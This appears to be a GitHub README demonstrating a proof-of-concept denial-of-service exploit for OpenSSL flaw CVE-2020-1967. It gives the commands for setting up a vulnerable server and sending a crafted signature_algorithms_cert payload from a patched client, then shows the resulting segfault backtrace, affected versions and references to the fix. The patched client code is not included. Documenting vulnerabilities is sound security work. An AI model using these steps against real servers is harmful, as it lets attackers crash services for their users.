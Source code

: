 # CVE-2020-1967
Proof of concept exploit about OpenSSL signature_algorithms_cert DoS flaw (CVE-2020-1967). Credit for the original finding to Bernd Edlinger, additional analysis by Matt Caswell and Benjamin Kaduk, this demo by Imre Rad.

## Prerequisite

Server or client applications that call the `SSL_check_chain()` function during or after a TLS 1.3 handshake. According to the documentation, `SSL_check_chain()` checks whether certificate x, private key pk and certificate chain chain is suitable for use with the current session s. This function call is NOT present in the popular Apache httpd or Nginx projects.

## Demo

To exploit this vulnerability, a crafted signature_algorithms_cert TLS extension needs to be submitted as part of the Hello message. I used a patched version of the openssl library to build such a client; the server is the built-in s_server openssl app, along with the -x options to activate the code path that invokes `SSL_check_chain`.

Setting up the server on a Debian stable (using the vulnerable version explicitly):

```
root@489def7f3594:/data# apt install libssl1.1=1.1.1d-0+deb10u2 openssl=1.1.1d-0+deb10u2
...

root@489def7f3594:/data# openssl version
OpenSSL 1.1.1d  10 Sep 2019

root@489def7f3594:/data# openssl s_server -cert cert.pem -key key.pem  -accept 8443 -verify 1 -tls1_3 -xkey key.pem -xcert cert.pem  -xchain cert.pem
verify depth is 1
Using default temp DH parameters
ACCEPT
```

Sending the payload using the patched client:

```
root@489def7f3594:/data# /path/to/patched/openssl s_client -connect 127.0.0.1:8443 -tls1_3 -cert cert.pem -key key.pem -sigalgs rsa_pss_rsae_sha256
CONNECTED(00000004)
Sending CVE-2020-1967 payload
...
```

And the server is supposed to segfault at this point. The core looks like this:
```
root@489def7f3594:/data/1# gdb /data/openssl-1.1.1d/apps/openssl core
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /data/openssl-1.1.1d/apps/openssl...
(No debugging symbols found in /data/openssl-1.1.1d/apps/openssl)
[New LWP 26319]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Core was generated by `/data/openssl-1.1.1d/apps/openssl s_server -cert cert.pem -key key.pem -accept'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007f09bcff3770 in tls1_check_sig_alg.part.0.cold () from /data/openssl-1.1.1d/libssl.so
(gdb) bt
#0  0x00007f09bcff3770 in tls1_check_sig_alg.part.0.cold () from /data/openssl-1.1.1d/libssl.so
#1  0x00007f09bd03f309 in tls1_check_chain () from /data/openssl-1.1.1d/libssl.so
#2  0x00007f09bd403fc8 in set_cert_cb ()
#3  0x00007f09bd037f75 in tls_post_process_client_hello () from /data/openssl-1.1.1d/libssl.so
#4  0x00007f09bd02703f in state_machine.part () from /data/openssl-1.1.1d/libssl.so
#5  0x00007f09bcffa3f8 in ssl3_write_bytes () from /data/openssl-1.1.1d/libssl.so
#6  0x00007f09bd00fbb9 in ssl_write_internal () from /data/openssl-1.1.1d/libssl.so
#7  0x00007f09bd00fd07 in SSL_write () from /data/openssl-1.1.1d/libssl.so
#8  0x00007f09bd3e337d in sv_body ()
#9  0x00007f09bd40757a in do_server ()
#10 0x00007f09bd3e7c27 in s_server_main ()
#11 0x00007f09bd3cea46 in do_cmd ()
#12 0x00007f09bd3b89fd in main ()
```

## Affected versions

Affected versions are: OpenSSL 1.1.1d, 1.1.1e, and 1.1.1f.
The first fixed version is OpenSSL 1.1.1g.

## References

- https://www.openssl.org/news/secadv/20200421.txt

- https://github.com/openssl/openssl/issues/11500

- https://github.com/openssl/openssl/commit/a87f3fe01a5a894aa27ccd6a239155fd129988e4

